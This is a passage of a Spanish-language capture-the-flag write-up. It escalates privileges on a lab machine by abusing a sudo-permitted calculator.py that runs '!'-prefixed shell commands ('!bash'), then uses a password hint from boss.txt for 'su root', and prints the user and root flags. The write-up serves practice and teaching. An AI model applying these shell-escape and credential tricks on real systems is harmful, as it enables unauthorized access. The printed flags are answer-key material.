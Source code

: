Nos da una pista de que probemos poniendo el simbolo `!` por delante y poner algo, por ejemplo ejecutare un `ls` poniendo el `!` por delante.

```shell
sudo -u 200-ok /home/404-page/calculator.py

#Dentro del script
!ls -la
```

Info:

```
total 36
drwxr-xr-x 1 404-page 404-page 4096 Aug 19 12:30 .
drwxr-xr-x 1 root     root     4096 Aug 19 11:21 ..
-rw------- 1 404-page 404-page  170 Aug 19 11:31 .bash_history
-rw-r--r-- 1 404-page 404-page  220 Aug 19 11:19 .bash_logout
-rw-r--r-- 1 404-page 404-page 3771 Aug 19 11:19 .bashrc
drwx------ 2 404-page 404-page 4096 Aug 19 12:30 .cache
-rw-r--r-- 1 404-page 404-page  807 Aug 19 11:19 .profile
-rwx--x--x 1 200-ok   200-ok    784 Aug 19 11:23 calculator.py
```

Vemos que nos deja ejecutar comando con un `!` delante, por lo que obtendremos la shell del usuario `200-ok` de la siguiente forma.

```shell
sudo -u 200-ok /home/404-page/calculator.py

#Dentro del script
!bash
```

Y con esto ya seremos el usuario `200-ok`, por lo que leeremos la flag.

> user.txt

```
bef4bb318a17abd01158337811750bcf
```

## Escalate Privileges

Si leemos el archivo llamado `boss.txt` veremos lo siguiente.

```
What is rooteable
```

Puede ser una posible contraseña o algo parecido, por lo que la probaremos con `root`.

```shell
su root
```

Y si metemos esa palabra como contraseña de `root` (`rooteable`) veremos que somos `root`, por lo que leeremos la flag.

> root.txt

```
2424b2a3292e20c6e1ade39ed3e77629
```
